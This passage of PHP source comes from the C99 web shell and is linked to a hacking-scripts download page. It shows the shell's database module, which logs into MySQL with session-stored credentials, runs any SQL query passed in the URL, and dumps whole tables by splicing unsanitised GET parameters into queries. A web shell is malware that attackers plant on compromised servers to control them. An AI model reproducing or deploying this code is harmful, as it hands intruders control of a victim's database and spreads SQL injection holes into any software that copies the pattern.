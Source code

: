   if($_POST['port']){$_SESSION['sql_port'] = $_POST['port'];}
  else{$_SESSION['sql_port'] = '3306';}
  if($_SESSION['sql_user'] && $_SESSION['sql_password']){
    if(!($sqlcon = @mysql_connect($_SESSION['sql_host'] . ':' . $_SESSION['sql_port'], $_SESSION['sql_user'], $_SESSION['sql_password']))){
      unset($_SESSION['sql_user'], $_SESSION['sql_password'], $_SESSION['sql_host'], $_SESSION['sql_port']);
      echo("Invalid credentials&lt;br&gt;\n");
      die(sqllogin());
    }
    else{
      $_SESSION['isloggedin'] = "true";
    }
  }
  else{
    die(sqllogin());
  }
  if ($_GET['db']){
    mysql_select_db($_GET['db'], $sqlcon);
    if($_GET['sqlquery']){
      $dat = mysql_query($_GET['sqlquery'], $sqlcon) or die(mysql_error());
      $num = mysql_num_rows($dat);
      for($i=0;$i&lt;$num;$i++){
        echo(mysql_result($dat, $i) . "&lt;br&gt;\n");
      }
    }
    else if($_GET['table'] && !$_GET['sqlf']){
      echo("&lt;a href='?act=sql&db=" . $_GET['db'] . "&table=" . $_GET['table'] . "&sqlf=ins'&gt;Insert Row&lt;/a&gt;&lt;br&gt;&lt;br&gt;\n");
      echo("&lt;table border='1'&gt;");
      $query = "SHOW COLUMNS FROM " . $_GET['table'];
      $result = mysql_query($query, $sqlcon) or die(mysql_error());
      $i = 0;
      $fields = array();
      while($row = mysql_fetch_assoc($result)){
        array_push($fields, $row['Field']);
        echo("&lt;th&gt;" . $fields[$i]);
        $i++;
      }
      $result = mysql_query("SELECT * FROM " . $_GET['table'], $sqlcon) or die(mysql_error());
      $num_rows = mysql_num_rows($result) or die(mysql_error());
      $y=0;
      for($x=1;$x&lt;=$num_rows+1;$x++){
        if(!$_GET['p']){
          $_GET['p'] = 1;
        }
        if($_GET['p']){
          if($y &gt; (30*($_GET['p']-1)) && $y &lt;= 30*($_GET['p'])){
            echo("&lt;tr&gt;");
            for($i=0;$i&lt;count($fields);$i++){
              $query = "SELECT " . $fields[$i] . " FROM " . $_GET['table'] . " WHERE " . $fields[0] . " = '" . $x . "'";
              $dat = mysql_query($query, $sqlcon) or die(mysql_error());
              while($row = mysql_fetch_row($dat)){
                echo("&lt;td&gt;" . $row[0] . "&lt;/td&gt;");
              }
            }
            echo("&lt;/tr&gt;\n");
          }
        }
        $y++;
      }
      echo("&lt;/table&gt;\n");
      for($z=1;$z&lt;=ceil($num_rows / 30);$z++){

 [1]: http://hackingscripts.com/c99-shell/ "C99 shell"